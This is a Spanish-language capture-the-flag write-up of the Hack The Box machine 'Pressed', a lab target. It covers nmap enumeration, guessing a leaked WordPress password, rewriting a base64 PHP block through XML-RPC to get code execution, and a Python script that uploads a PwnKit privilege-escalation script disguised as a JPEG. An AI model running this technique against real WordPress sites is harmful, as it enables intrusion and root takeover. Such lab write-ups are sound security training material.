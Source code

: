 ```yaml
---
layout: single
title: Pressed - Hack The Box
excerpt: "Hoy nos enfrentamos contra pressed, es una máquina de hackthebox de dificultad difícil que tiene expuesto un backup en lo cual extraemos una contraseña, retocamos un poco la contraseña para poder editar blogs en xmlrpc, luego logramos subir una webshell y subimos un archivo para poder convertirnos en root."
date: 2022-09-20
classes: wide
header:
  teaser: /assets/images/htb-writeup-pressed/pressed_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - password guessing
  - WordPress XML'RPC Create WebShell
  - PwnKit Exploit
---
```



## Enumeración

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-20 05:32 -03
Nmap scan report for pressed.htb (10.10.11.142)
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.9
|_http-title: UHC Jan Finals &#8211; New Month, New Boxes
|_http-server-header: Apache/2.4.41 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.76 seconds
```
Solo nos reporta el puerto 80 por lo cual le lanzamos un wpscan a ver que nos detecta.

![](/assets/images/htb-writeup-pressed/wpscan.png)

En dicho archivo nos encontramos una contraseña, uhc-jan-finals-2021 la modificamos a uhc-jan-finals-2022, y se nos presenta válida.Pero el panel de autenticación, tiene segundo factor de autenticación.

![](/assets/images/htb-writeup-pressed/otp.png)

## Rce

Por lo cual decido pasar a xmlrpc, que xmlrpc es una interfaz que actúa como api para aplicaciones web.En el xmlrpc podemos ver la flag del usuario, pero salteemos eso y vayamos al grano.Para comunicarnos con xmlrpc utilizaremos python.Primero pasaremos a conectarnos.

![](/assets/images/htb-writeup-pressed/connect.png)

Listamos el contenido del blog.

```php
'<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->

<?php  echo(file_get_contents('/var/www/html/output.log')); ?> ## La cadena decodificada en base64
```

Lo que haremos ahora es cambiar el contenido en base64 para poner el que queramos nosotros.

![](/assets/images/htb-writeup-pressed/cmd.png)

![](/assets/images/htb-writeup-pressed/post.png)

Tenemos ejecución de código.

![](/assets/images/htb-writeup-pressed/rce.png)

## Elevacion de privilegios 
La máquina posee una versión de pkexec vulnerable. Pero claro, si no tenemos acceso a la máquina, ¿cómo vamos a poder ejecutarlo?. La solución es fácil, nos descargamos el repositorio pkwner de kimusan que contiene una versión en bash para aprovechar dicha vulnerabilidad.Nos creamos un script en python3 para subir un archivo.


```python

from wordpress_xmlrpc import Client, WordPressPost
from wordpress_xmlrpc.compat import xmlrpc_client
from wordpress_xmlrpc.methods import media, posts
client = Client('http://pressed.htb/xmlrpc.php','admin','uhc-jan-finals-2022')
data = {
        'name': 'picture.jpg',
        'type': 'image/jpeg',  # mimetype
}

with open('pkwner.sh', 'rb') as img:
        data['bits'] = xmlrpc_client.Binary(img.read())

response = client.call(media.UploadFile(data))
print(response)
```
Una vez subido desde la webshell lo ejecutamos.

![](/assets/images/htb-writeup-pressed/flag.png)

Tenemos la flag.Pero eso no basta, hay que conseguir una shell. Para poder conectarnos remotamente a la máquina hay que configurar una rules en iptables, para que nos acepte tráfico saliente y entrante de nuestra ip, entonces hacemos lo siguiente.

![](/assets/images/htb-writeup-pressed/iptables.png)

Obtenemos una shell.

![](/assets/images/htb-writeup-pressed/root.png)
